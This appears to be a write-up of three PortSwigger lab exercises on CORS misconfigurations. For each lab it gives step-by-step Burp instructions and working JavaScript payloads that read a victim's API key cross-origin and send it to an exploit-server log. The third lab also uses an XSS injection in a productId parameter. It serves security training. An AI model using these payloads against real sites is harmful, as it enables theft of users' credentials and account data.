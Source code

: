 **Lab #1: CORS vulnerability with basic origin reflection**

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use the browser to log in and access your account page.
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header:

Origin: https://example.com
Observe that the origin is reflected in the Access-Control-Allow-Origin header.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL:

<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click Deliver exploit to victim.
Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1b3764fa-a537-41dd-80c2-834650d431da)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/43df1957-304e-486b-bba7-ef4516270ccc)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/e496e357-52f7-4fc0-ad74-f97c4afb5bd9)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/5e25eaca-f1d8-4213-9d57-6e145bc808e6)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/210dff91-13cc-4514-829b-485f4881d65a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/4e8df9e4-31ef-45a1-979b-d51813dc7b67)

**Lab #2: CORS vulnerability with trusted null origin** 

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use Burp's browser to log in to your account. Click "My account".
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header Origin: null.
Observe that the "null" origin is reflected in the Access-Control-Allow-Origin header.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with the URL for your unique lab URL and YOUR-EXPLOIT-SERVER-ID with the exploit server ID:

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
Notice the use of an iframe sandbox as this generates a null origin request.

Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click "Deliver exploit to victim".
Click "Access log", retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d6241fd9-c4e8-4d1b-b8a5-28b73702a7a2)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/95d2de0f-a086-4595-8f08-8ead4842c883)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/096c7bf9-07b0-4e3e-95e9-05a2799b7f9d)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b691fbde-0899-4b0d-b176-a4f5cd1acab3)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/f4e50ab0-ba78-4a9a-b8df-30a4de4001f1)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d89a3c07-d749-4392-a8d7-55695b3e5096)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8ca02f8e-4903-45ee-81ec-da7c9e422018)

**Lab #3: CORS vulnerability with trusted insecure protocols**

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use Burp's browser to log in and access your account page.
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header Origin: http://subdomain.lab-id where lab-id is the lab domain name.
Observe that the origin is reflected in the Access-Control-Allow-Origin header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
Open a product page, click Check stock and observe that it is loaded using a HTTP URL on a subdomain.
Observe that the productID parameter is vulnerable to XSS.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL and YOUR-EXPLOIT-SERVER-ID with your exploit server ID:

<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click Deliver exploit to victim.
Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/43927350-f0f3-417f-926b-18eb2cd38a96)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/2e8b7bd1-7522-433b-9bad-1b25c0d83189)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/0a64eb3a-a3f9-4895-8669-0aa353bafd74)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/75581357-e1bf-4957-8eeb-68defe7f7610)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/992e6329-114b-4585-85ff-45e58a37b13c)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d5a39682-c044-4e18-86c0-fc129b40531e)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/7c415450-395c-4b0e-9dda-657c688330f7)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/3c530767-fdeb-43fd-a2a5-b208da35fb99)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/eccb204d-d50e-448d-869c-63919b9692a8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/9001a664-2bc2-45e8-8c85-113224275063)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/69dec431-ac66-4c95-aa5d-96e016fb50b5)


